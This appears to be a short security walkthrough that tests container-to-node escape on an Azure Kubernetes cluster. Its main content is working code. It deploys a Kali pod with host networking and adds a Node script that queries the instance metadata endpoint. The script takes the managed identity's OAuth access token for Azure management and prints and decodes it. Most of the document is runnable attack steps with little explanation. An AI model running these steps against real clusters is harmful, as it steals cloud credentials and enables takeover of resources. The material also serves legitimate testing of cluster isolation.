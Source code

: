 # Test Container to Node escape

**Prereqs**

In Azure CLI have cluster ready and kubectl installed  (these depedencies are not explored further in this post)

```sh
az aks create -n myAKSCluster -g myResourceGroup --enable-addons azure-keyvault-secrets-provider --enable-managed-identity
```

**Kali image**

- save image to spec.yaml


```yaml
apiVersion: v1
kind: Pod
metadata:
  name: kali
  labels:
    app: kali
spec:
  containers:
  - name: kali
    image: kalilinux/kali-rolling
    command:
        - "/bin/sleep"
        - "10000"
  hostNetwork: true
  dnsPolicy: Default
```

```sh
kubectl apply -f spec.yaml
kubectl exec --stdin --tty kali -- /bin/bash

```

---

# Once in KALI Shell

```sh
apt update -y;
apt install curl -y;


curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.0/install.sh | bash

export NVM_DIR="$([ -z "${XDG_CONFIG_HOME-}" ] && printf %s "${HOME}/.nvm" || printf %s "${XDG_CONFIG_HOME}/nvm")"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh" # This loads nvm

nvm install 14

nvm use 14

mkdir getToken

cd getToken

echo '
{
  "name": "imds",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "axios": "^0.27.2",
    "jsonwebtoken": "^8.5.1"
  }
}
' > package.json

npm install

echo '

const { default: axios } = require("axios");
const { decode } = require("jsonwebtoken");

getToken()
async function getToken () {

    let options ={
        url:"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com",
        headers:{
            metadata:true
        }
    }
    let {data} = await axios(options).catch(error => console.log(error?.response?.data || error))
    console.log(data)
    console.log(decode(data?.access_token))
}

' > getToken.js

node getToken.js

```

**Expected end result**

![](20220830101015.png)  